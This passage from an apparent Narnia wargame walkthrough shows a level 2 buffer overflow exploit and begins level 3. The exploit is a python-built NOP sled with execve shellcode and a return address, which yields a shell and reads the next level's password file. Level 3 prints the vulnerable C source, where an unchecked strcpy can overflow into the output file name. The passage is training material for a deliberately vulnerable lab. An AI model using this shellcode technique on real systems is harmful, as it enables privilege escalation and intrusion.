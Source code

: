 $ whoami
narnia2
```
Bingo we've got our shell! Now to get the flag:
```
arnia2@narnia:~$ /narnia/narnia2 $(python -c 'print "\x90" * 107 + "\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xf1\x89\xf2\x31\xc0\xb0\x0b\xcd\x80" + "\xc0\xd7\xff\xff"')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
```

## Level 3 -> 4 ##
Let's see what our binary does this time:
```
narnia3@narnia:~$ cd /narnia
narnia3@narnia:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
```
Hmm, interesting, so the output will be thrown to ```/dev/null```. Let's investigate the source code:
```
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
